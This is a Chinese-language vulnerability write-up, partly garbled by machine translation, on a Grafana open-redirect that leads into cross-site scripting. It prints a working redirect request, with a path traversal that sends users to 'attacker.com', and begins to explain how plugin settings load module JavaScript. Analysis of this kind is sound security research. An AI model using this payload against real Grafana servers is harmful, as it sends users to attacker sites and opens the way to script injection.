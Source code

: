   
  
打开重定向  
  
**http.Redirect()为了达到打开重定向发生的逻辑，opt.FileSystem.Open(file)文件变量中包含的路径必须存在于文件系统中，并且fi.IsDir()必须能够进入条件语句。**  
  
因此，我们需要对请求路径进行操作，以便它可以在两个函数中使用，这里重要的http.Redirect()是URL-encode 。**opt.FileSystem.Open(file)****?****%3f**  
  

```
[요청]
GET /public/../\attacker.com/%3f/../../../../../.. HTTP/1.1
Host: 192.168.100.2:3000

[응답]
HTTP/1.1302 Found
Location: /\attacker.com/?/../../../../../../
```

  
- 当 opt.FileSystem.Open(file) 解释上述路径时，它会执行四个 ../ 来指向“”。因此，代码会为路径 /staticfiles/etc/etc/ 打开一个文件句柄。  
  
- fi.IsDir() 返回 True 并进入 if 语句。  
  
- http.Redirect(path) 处理 Location 的字符串%3f，根据将其分离为 Path 和 Raw Query，然后处理该字符串，因此/\attacker.com/%3f/../../../../它将其在 Location 标头中发送给用户。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taczGMsy4yCZ2qTuE6Hvsu3nQ15xuKsefQQA24nyN70gRbGkC5WDib7WpqVr6ica8QcpgBGLSicXmsVzA/640?wx_fmt=png&from=appmsg "")  
  
跨站脚本  
  
Grafana 在前端有一个路径用来检查插件应用的内容/a/{plugin-app-name}/explore。当浏览器向该路径发出请求时，Grafana 的前端 JS**{plugin-app-name}**  
会提取并转换**/api/plugins/{pugin-app-name}/settings**  
为。**fetch**  
  
之后，它执行“module”字段中定义的 JS。  
  

```
{
    &#34;name&#34;: &#34;plugin-app&#34;,
    &#34;type&#34;: &#34;app&#34;,
    &#34;id&#34;: &#34;plugin-app&#34;,
    &#34;enabled&#34;: true,
    &#34;pinned&#34;: true,
    &#34;autoEnabled&#34;: true,
    &#34;module&#34;: &#34;/modules/..../plugin-app.js&#34;, //js file to load
    &#34;baseUrl&#34;: &#34;public/plugins/grafana-lokiexplore-app&#34;,
    &#34;info&#34;: {
        &#34;author&#34;: {
            &#34;name&#34;: &#34;Grafana&#34;
            ...
        }
    }
    ...
```
